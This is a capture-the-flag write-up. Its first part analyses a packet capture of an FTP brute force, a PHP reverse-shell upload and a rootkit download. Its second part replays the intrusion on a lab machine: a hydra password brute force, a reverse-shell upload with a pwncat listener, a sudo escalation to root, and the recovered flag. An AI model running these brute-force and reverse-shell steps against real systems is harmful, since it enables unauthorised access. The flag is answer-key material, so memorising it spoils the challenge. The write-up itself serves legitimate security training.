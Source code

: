 # h4cked

Laurent Chauvin | November 03, 2022

## Resources

## Progress

### Task 1 : Oh no! We've been hacked!

Running wireshark
```
wireshark Capture.pcapng
```

After a brief overview, it seems 'jenny' got her ftp password bruteforced (probably with ```hydra```).

But let's follow streams.

We can see a successful login on TCP Stream 7.
```
PASS password123
230 Login successful.
``` 

On Stream 16, a 'shell.php' has been uploaded
```
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
SYST
215 UNIX Type: L8
PWD
257 "/var/www/html" is the current directory
PORT 192,168,0,147,225,49
200 PORT command successful. Consider using PASV.
LIST -la
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
200 SITE CHMOD command ok.
QUIT
221 Goodbye.
```

The content of the revershell (from PentestMonkey) can be found on Stream 18, with connection info
```
$ip = '192.168.0.147';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

On Stream 19, revershell is called
```
GET /shell.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

We can see them stabilizing the shell on Stream 20
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

On Stream 20, we can see they gain root access on hostname 'wir3' 
```
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:26:54 up  2:21,  1 user,  load average: 0.02, 0.07, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jenny    tty1     -                20:06   37.00s  1.00s  0.14s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls -la
total 1529956
drwxr-xr-x  23 root root       4096 Feb  1 19:52 .
drwxr-xr-x  23 root root       4096 Feb  1 19:52 ..
drwxr-xr-x   2 root root       4096 Feb  1 20:11 bin
drwxr-xr-x   3 root root       4096 Feb  1 20:15 boot
drwxr-xr-x  18 root root       3880 Feb  1 20:05 dev
drwxr-xr-x  94 root root       4096 Feb  1 22:23 etc
drwxr-xr-x   3 root root       4096 Feb  1 20:05 home
lrwxrwxrwx   1 root root         34 Feb  1 19:52 initrd.img -> boot/initrd.img-4.15.0-135-generic
lrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic
drwxr-xr-x  22 root root       4096 Feb  1 22:06 lib
drwxr-xr-x   2 root root       4096 Feb  1 20:08 lib64
drwx------   2 root root      16384 Feb  1 19:49 lost+found
drwxr-xr-x   2 root root       4096 Jul 25  2018 media
drwxr-xr-x   2 root root       4096 Jul 25  2018 mnt
drwxr-xr-x   2 root root       4096 Jul 25  2018 opt
dr-xr-xr-x 117 root root          0 Feb  1 20:23 proc
drwx------   3 root root       4096 Feb  1 22:20 root
drwxr-xr-x  29 root root       1040 Feb  1 22:23 run
drwxr-xr-x   2 root root      12288 Feb  1 20:11 sbin
drwxr-xr-x   4 root root       4096 Feb  1 20:06 snap
drwxr-xr-x   3 root root       4096 Feb  1 20:07 srv
-rw-------   1 root root 1566572544 Feb  1 19:52 swap.img
dr-xr-xr-x  13 root root          0 Feb  1 20:05 sys
drwxrwxrwt   2 root root       4096 Feb  1 22:25 tmp
drwxr-xr-x  10 root root       4096 Jul 25  2018 usr
drwxr-xr-x  14 root root       4096 Feb  1 21:54 var
lrwxrwxrwx   1 root root         31 Feb  1 19:52 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
lrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@wir3:/$ su jenny
su jenny
Password: password123

jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: password123

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# whoami
whoami
root
```

Then they clone a git repository (https://github.com/f0rb1dd3n/Reptile.git) of a stealthy backdoor (or rootkit) and try to compile it, but get an error
```
root@wir3:~/Reptile# make
make
make[1]: Entering directory '/root/Reptile/userland'
Makefile:10: ../.config: No such file or directory
make[1]: *** No rule to make target '../.config'.  Stop.
make[1]: Leaving directory '/root/Reptile/userland'
Makefile:56: recipe for target 'userland_bin' failed
make: *** [userland_bin] Error 2
root@wir3:~/Reptile# 
```

### Task 2 : Hack your way back into the machine

```
export IP=10.10.204.164
```

The challenge state that the password has been changed, and ask us to replicate the hack.

So we will probably need to bruteforce Jenny's password with ```hydra``` too.

```
hydra -l jenny -P /opt/rockyou.txt ftp://$IP

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-03 01:54:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.204.164:21/
[21][ftp] host: 10.10.204.164   login: jenny   password: 987654321
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 12 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-03 01:55:28
```

Let's prepare our reverse shell with our IP and port and upload it.
```
ftp $IP          
Connected to 10.10.204.164.
220 Hello FTP World!
Name (10.10.204.164:kali): jenny
331 Please specify the password.
Password: 987654321
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put revshell.php
local: revshell.php remote: revshell.php
229 Entering Extended Passive Mode (|||26719|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494       48.96 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (24.39 KiB/s)
ftp> chmod 777 revshell.php
200 SITE CHMOD command ok.
ftp> exit
221 Goodbye.
```
Don't forget to make your shell executable with chmod.

Let's start pwncat
```
cd /opt/pwncat
poetry shell
pwncat-cs -lp 9999
```

And visit our revshell.php webpage at 'http://$IP/revshell.php'

And.....
```
[02:12:53] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
[02:13:00] received connection from 10.10.204.164:55504                                                                                                                                                                           bind.py:84
[02:13:01] 0.0.0.0:9999: upgrading from /bin/dash to /bin/bash                                                                                                                                                                manager.py:957
[02:13:03] 10.10.204.164:55504: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$
```

We are back. Let's move to 'jenny' account first.
```
su jenny

Password: 987654321
jenny@wir3:/$ 
```

Now root
```
jenny@wir3:/$ sudo su
[sudo] password for jenny: 987654321
root@wir3:/# whoami

root
```

Let's get the flag in '/root/Reptile' as stated in the challenge.
```
root@wir3:/# cat /root/Reptile/flag.txt 

ebcefd66ca4b559d17b440b6e67fd0fd
```


## Flag

```
ebcefd66ca4b559d17b440b6e67fd0fd
```
